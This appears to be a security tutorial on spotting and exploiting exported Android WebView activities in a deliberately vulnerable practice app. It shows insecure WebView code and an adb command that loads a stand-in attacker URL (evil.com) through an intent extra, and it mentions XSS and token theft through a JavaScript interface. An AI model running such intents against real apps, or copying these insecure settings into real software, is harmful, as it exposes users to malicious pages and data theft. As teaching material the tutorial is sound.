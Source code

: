- The `webview` allows to load a remote url and display web pages as part of the activity layout. 
- It doesn't work like a full fledged browser but it shows the data on a web page inside an activity.
- Links opening on the apps itself without going to a browser are example for this.

***How to look for a vulnerable `webview`?***

 => First let's look which all components are exported or not, there are two ways to tell this:
 1. if the component explicitly declares `exported="true"` attribute
 2. The component automatically becomes exported if it has intent filters, unless declared otherwise ie, `exported="false"` 

  => Now confirm that the web view exist by look at source code for `loadwebview()` method.

  => lets spot the vulnerability by looking at an example:

  ```xml
 <activity android:name="com.tmh.vulnwebview.SupportWebView"   android:exported="true"/>
  ```

 -  this is an activity declared on manifest file  which is exported.
 - Let's take a look at a vulnerable web view
 ```java       
 webView.setWebViewClient(new WebViewClient());  
 webView.getSettings().setAllowUniversalAccessFromFileURLs(true);    webView.getSettings().setJavaScriptEnabled(true);  
 if (getIntent().getExtras().getBoolean("is_reg", false)) {  
    webView.loadUrl("file:///android_asset/registration.html");  
     } else {  
          webView.loadUrl(getIntent().getStringExtra("reg_url"));  
         }  
     }  
 }
  ```

 - if we look at the code then we van see that it is loading a url right at the end and it is using a string send through the intent to load the url.

 - So this behaviour can be then exploited by third party application by sending the right intent to component with a url string, and the application will happily accept it as the component is exported which means that third party applications have access to it.

`exploitation:`

 => For to exploit the vulnerability  we will send an intent to the vulnerable component using `adb` this will open a malicious web page provided by the attacker:

 => we use this command for the same:
 
 ```shell
 adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es  reg_url "https://www.evil.com"
 ```

 breaking down the command: 
 1. `adb shell`: to start a unique shell on our device 
 2. `am start`: 'am' stands for activity manager here we are instructing android to start the activity manager. this manages all the components of android application. 
 3. `-n` : this flag is used to represent the name of the component where we are sending our intent.
 4. `com.tmh.vulnwebview/.RegistrationWebView` : name of the component, the only change here is that we need to add '/' just before the activity name.
 5. `--es reg_url`: stands for extra string where we are going to end the string url.  the name of the String extra that we get from the activity is `reg_url`
 6. finally provide the malicious link that you want to send to the attacker.


###### javascript enabled for a WebView:

 - web views supports the use of javascript, the developer can enable it by just adding this configuration:
```java
 webView.getSettings().setJavaScriptEnabled(true);
```

- also adding this configuration helps in creating an interface b/w web page's javascript and client side java code:
```java
WebView webView = (WebView) findViewById(R.id.webview);
webView.addJavascriptInterface(new WebAppInterface(this),"Android");
```

- this means that the web page's javascript code can access and inject java code into the application
- as this activity is exported this behaviour can be dangerous and allow an attacker to carry out  attacks including XSS and stealing tokens from the application.

 `exploitation:`
  